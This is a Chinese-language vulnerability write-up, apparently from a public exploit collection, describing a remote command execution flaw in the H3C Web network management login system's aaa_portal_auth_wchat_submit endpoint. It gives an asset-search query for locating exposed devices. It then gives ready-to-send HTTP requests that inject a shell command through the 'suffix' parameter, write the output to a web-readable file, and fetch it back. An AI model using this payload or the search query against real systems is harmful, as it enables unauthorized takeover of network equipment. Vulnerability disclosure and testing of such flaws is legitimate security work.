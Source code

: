 # H3CWeb网管登录系统aaa_portal_auth_wchat_submit存在远程命令执行漏洞

# 一、漏洞简介
H3CWeb网管登录系统aaa_portal_auth_wchat_submit存在远程命令执行漏洞，攻击者可通过该漏洞获取服务器权限。

# 二、影响版本
+ H3C用户网管登录系统

# 三、资产测绘
+ hunter`app.name=="H3C Web 网管"`
+ 特征

![1701757610344-1df9adee-96b0-44a3-b3fe-1dd053b0ebd2.png](./img/-wD-0hxEiTfW9UpW/1701757610344-1df9adee-96b0-44a3-b3fe-1dd053b0ebd2-819639.png)

# 四、漏洞复现
```plain
GET /webui/?g=aaa_portal_auth_wchat_submit&suffix=;echo%20%60whoami%60%20|tee%20/usr/local/webui/sslvpn/stc.txt|ls HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36
Host: {hostname}
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: close
```

![1703406198887-d7773622-0e8c-4f94-874c-d8705e0decea.png](./img/-wD-0hxEiTfW9UpW/1703406198887-d7773622-0e8c-4f94-874c-d8705e0decea-740943.png)

获取命令执行结果

```plain
GET /sslvpn/stc.txt HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36
Host: {hostname}
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: close
```

![1703406215229-b92a5c74-1367-432b-a589-3e637bbe1e0c.png](./img/-wD-0hxEiTfW9UpW/1703406215229-b92a5c74-1367-432b-a589-3e637bbe1e0c-482105.png)



> 更新: 2024-02-29 23:57:19  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/ao87h8f27dwwuuvo>